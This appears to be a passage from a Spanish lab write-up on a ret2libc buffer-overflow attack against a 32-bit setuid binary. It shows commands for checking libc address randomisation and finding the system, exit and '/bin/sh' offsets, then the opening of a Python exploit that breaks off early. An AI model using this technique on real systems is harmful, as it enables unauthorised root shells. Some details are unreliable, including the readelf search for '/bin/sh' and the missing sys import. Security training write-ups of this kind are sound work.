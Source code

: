 Aqui vemos que la direccion esta cambiando. Pero si cojemos una de la direcciones por ejemplo la `0xb75e7000` y la grepeamos
al bucle

```bash
for i in $(seq 10); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'; done | grep "0xb75e7000"
```

nos damos cuenta que esta direccion apparece multiples vecez. Esto pasa porque estamos frente una maquina de 32 bits.

#### La technica ret2libc {-}

La technica ret2libc es una technica que funcciona de una manera muy sencilla y es poniendole la direccion de la funccion system, seguida de la funccion
exit sequida de la funccion que queremos lanzar con la libreria en nuestro caso un /bin/sh.

Para encontrar la direccionnes de estas funcciones, primero tenemos que encontrar el offset que seria la differencia entre la posicion de la funccion con la
posicion de la libreria. Esto quiere decir que si sumamos los dos, conocemos la direccion de las differentes funccionnes.

Para conocer el offset, utilizamos la utilidad readelf:

1. Buscamos el offset del commado **system** de la libreria libc.so

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "system"
    ```

1. Buscamos el offset del commando **exit** de la misma libreria

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "exit"
    ```

1. Buscamos el offset del commando **/bin/sh** en la misma libreria

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "/bin/sh"
    ```

los offsets encontrados en este caso son:

- system    : 00040310
- exit      : 00033260
- /bin/sh   : 162bac

La utilidad readelf nos permitte ver el offset de estos commandos de manera a que si sumamos la direccion de la libreria libc.so
al offset, conocemos la direccion exacta de los differentes commandos.

Una vez connocemos estas direcciones, utilizaremos la techniqua ret2libc para ejecutar el commando /bin/sh como root.

#### Creamos el exploit en python {-}

```python
#!/usr/bin/python3

import signal
from struct import pack
from subprocess import call

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

#Ctrl_C
signal.signal(signal.SIGINT, def_handler)
```